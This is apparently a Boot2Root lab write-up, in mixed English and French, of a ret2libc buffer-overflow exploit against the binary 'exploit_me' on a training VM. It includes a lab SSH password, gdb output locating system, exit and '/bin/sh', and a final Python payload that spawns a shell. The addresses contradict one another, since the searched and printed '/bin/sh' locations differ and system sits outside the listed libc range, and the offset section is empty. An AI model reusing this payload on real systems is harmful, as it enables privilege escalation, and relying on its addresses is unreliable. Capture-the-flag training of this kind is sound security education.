


<div align="center">
  
</div>

# Boot2Root

**name:** writeup2
**Date:** 6th January 2026  
**Prepared By:** sben-tay's group
**Target identified:** 192.168.56.101

---

> _For this exploit we need to complete [writeup1](./writeup1.md)_

## Enumeration

### SSH - Zaz


First step we need to connect ssh with user zaz.

- **login**    : `zaz`
- **password** : `646da671ca01bb5d84dbb5fb2238dc8e`

```bash
ssh zaz@192.168.56.101
```

### RET2LIBC

**ret2libc** is a method from stackoverflow in the RET block of the program to execute libc functions loaded into the program.


#### payload
Recherche des fonctions libc du binaire

Pour faire notre payload nous avons besoin de de piocher des fonctions de la libc qui peuvent nous etre utile pour ce dernier.

```bash
(gdb) info functions system
All functions matching regular expression "system":

Non-debugging symbols:
0xf7e6aed0  __libc_system
0xb7e6b060  system
0xf7f48a50  svcerr_systemerr
```
Ok nous avons la fonction system charger de la libc, cette fonction est interessante car system appel bien execve.
Il nous reste plus qu'a trouver l'arguments de system dans la libc directement l'ideal serrait "/bin/sh"

```bash
(gdb) info proc map
process 2020
Mapped address spaces:

	Start Addr   End Addr       Size     Offset objfile
	 0x8048000  0x8049000     0x1000        0x0 /home/users/level04/level04
	 0x8049000  0x804a000     0x1000        0x0 /home/users/level04/level04
	 0x804a000  0x804b000     0x1000     0x1000 /home/users/level04/level04
	0xf7e2b000 0xf7e2c000     0x1000        0x0 
	0xf7e2c000 0xf7fcc000   0x1a0000        0x0 /lib32/libc-2.15.so
	0xf7fcc000 0xf7fcd000     0x1000   0x1a0000 /lib32/libc-2.15.so
	0xf7fcd000 0xf7fcf000     0x2000   0x1a0000 /lib32/libc-2.15.so
	0xf7fcf000 0xf7fd0000     0x1000   0x1a2000 /lib32/libc-2.15.so
	0xf7fd0000 0xf7fd4000     0x4000        0x0 
	0xf7fda000 0xf7fdb000     0x1000        0x0 
	0xf7fdb000 0xf7fdc000     0x1000        0x0 [vdso]
	0xf7fdc000 0xf7ffc000    0x20000        0x0 /lib32/ld-2.15.so
	0xf7ffc000 0xf7ffd000     0x1000    0x1f000 /lib32/ld-2.15.so
	0xf7ffd000 0xf7ffe000     0x1000    0x20000 /lib32/ld-2.15.so
	0xfffdd000 0xffffe000    0x21000        0x0 [stack]

(gdb) find 0xf7e2c000,0xf7fcc000, "/bin/sh"
0xb7f8cc58
1 pattern found.
(gdb) x/s 0xb7f8cc58
0xf7f897ec:	 "/bin/sh"
```

Il nous faut une adresse de retour maintenant nous pouvons prendre par exemple exit.

```bash
(gdb) info function exit
All functions matching regular expression "exit":

Non-debugging symbols:
0xb7e5ebe0  exit # bingo
0xf7e5eba0  on_exit
0xf7e5edb0  __cxa_atexit
0xf7e5ef50  quick_exit
0xf7e5ef80  __cxa_at_quick_exit
0xf7ee45c4  _exit
0xf7f27ec0  pthread_exit
0xf7f2d4f0  __cyg_profile_func_exit
0xf7f4bc30  svc_exit
0xf7f55d80  atexit
```


- system = `0xb7e6b060`
- exit   = `0xb7e5ebe0` 
- /bin/sh = `0xb7f8cc58`


### offset




### Run Payload

cmd = `./exploit_me $(python -c 'print "A"*140 + "\xb7\xe6\xb0\x60"[::-1] + "\xb7\xe5\xeb\xe0"[::-1] + "\xb7\xf8\xcc\x58"[::-1]')`



END